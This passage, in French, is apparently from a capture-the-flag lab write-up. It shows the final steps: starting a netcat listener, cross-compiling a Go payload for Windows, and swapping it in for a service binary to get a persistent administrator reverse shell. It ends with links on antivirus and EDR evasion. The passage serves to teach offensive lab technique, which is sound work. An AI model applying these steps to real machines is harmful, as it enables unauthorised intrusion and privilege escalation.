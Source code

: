 3.  Mettre en place un listener sur le port 443

```
nc -lnvp 443
```

4. Le processus de compilation crée un fichier nommé `update_script.exe`

```
GOOS=windows go build update_script.go
```

![files compilation](/images/THM-HackSmarterSecurity/malware-exe.png)

5. Renommez le fichier malveillant `spoofer-scheduler.exe` pour qu'il fonctionne sur la cible.

```
mv update_script.exe spoofer-scheduler.exe
```

Sur la cible, arrêtez le service, remplacez le fichier légitime par votre fichier malveillant et redémarrez le service. Vous devriez voir les fichiers être transférés sur le serveur cible.

![Malware working successfully](/images/THM-HackSmarterSecurity/malware-success.png)

Sur le listener, nous obtenons un shell avec des privilèges d'administrateur qui n'expire pas.

![Stable shell that does not die received](/images/THM-HackSmarterSecurity/admin-shell.png)

J'espère que cet article vous a été utile et qu'il vous a permis d'apprendre de nouvelles choses. Il existe de nombreuses autres façons d'échapper aux antivirus/EDR, tel que [AMSI Bypass](https://www.hackingarticles.in/a-detailed-guide-on-amsi-bypass/), je vous encourage à apprendre et à pratiquer différentes méthodes. Si vous aimez les livres, je vous recommande vivement [Evading EDR: The Definitive Guide to Defeating Endpoint Detection Systems](https://www.amazon.com/Evading-EDR-Definitive-Defeating-Detection/dp/1718503342) et [Antivirus Bypass Techniques](https://www.amazon.com/Antivirus-Bypass-Techniques-practical-techniques/dp/1801079749).
